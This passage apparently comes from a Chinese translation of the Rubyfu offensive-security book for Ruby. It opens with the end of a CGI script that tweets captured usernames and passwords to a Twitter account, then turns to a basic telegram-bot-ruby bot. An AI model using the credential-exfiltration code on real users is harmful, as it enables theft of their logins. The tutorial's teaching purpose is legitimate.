 ```
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts "" 
```

# Telegram API

# Telegram API

我们知道 Telegram 是一款通过用户的手机号识别用户的消息应用。幸运的是，Telegram 有自己的 API -*Ruby 有一个包装 gem 用于* [*Telegram 的 Bot API*](https://core.telegram.org/bots/api) 叫做 [*telegram-bot-ruby*](https://github.com/atipugin/telegram-bot-ruby) - 允许你与其他服务集成，创建自定义工具，构建单人和多人游戏，构建社交服务，几乎可以做任何事情；你闻到了一些邪恶的味道吗？

+   安装 telegram-bot gem

    ```
    gem install telegram-bot-ruby 
    ```

+   基本用法

就像许多 API 一样，你必须获取一个[token](https://core.telegram.org/bots#botfather)来处理你的机器人。这里是一个基本用法

```
require 'telegram/bot'

token = 'YOUR_TELEGRAM_BOT_API_TOKEN'

Telegram::Bot::Client.run(token) do |bot|
  bot.listen do |message|
    case message.text
    when '/start'
      bot.api.send_message(chat_id: message.chat.id, text: "Hello, #{message.from.first_name}")
    when '/stop'
      bot.api.send_message(chat_id: message.chat.id, text: "Bye, #{message.from.first_name}")
    when '/rubyfu'
      bot.api.send_message(chat_id: message.chat.id, text: "Rubyfu, where Ruby goes eveil!")
    end
  end
end 
```

运行后，打开你的 Telegram 并找到机器人，开始聊天输入 `/start`，尝试发送 `/rubyfu`。
